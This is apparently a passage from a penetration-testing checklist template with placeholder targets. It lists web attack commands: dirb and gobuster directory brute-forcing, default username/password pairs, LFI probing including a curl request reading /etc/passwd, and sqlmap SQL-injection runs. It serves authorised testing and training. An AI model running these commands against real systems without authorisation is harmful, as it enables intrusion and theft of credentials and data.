 INSERTNIKTOSCAN


#### Url brute force

```
# Not recursive
dirb http://INSERTIPADDRESS -r -o dirb-INSERTIPADDRESS.txt

# Gobuster - remove relevant responde codes (403 for example)
gobuster -u http://INSERTIPADDRESS -w /usr/share/seclists/Discovery/Web_Content/common.txt -s '200,204,301,302,307,403,500' -e
```

INSERTDIRBSCAN


#### Default/Weak login

Search documentation for default passwords and test them

```
site:webapplication.com password
```

```
admin admin
admin password
admin <blank>
admin <servicename>
root root
root admin
root password
root <servicename>
<username if you have> password
<username if you have> admin
<username if you have> username
username <servicename>
```


#### LFI/RFI




```
fimap -u "http://INSERTIPADDRESS/example.php?test="

# Ordered output
curl -s http://INSERTIPADDRESS/gallery.php?page=/etc/passwd
/root/Tools/Kadimus/kadimus -u http://INSERTIPADDRESS/example.php?page=
```

#### SQL-Injection

```
# Post
./sqlmap.py -r search-test.txt -p tfUPass

# Get
sqlmap -u "http://INSERTIPADDRESS/index.php?id=1" --dbms=mysql

# Crawl
sqlmap -u http://INSERTIPADDRESS --dbms=mysql --crawl=3
```
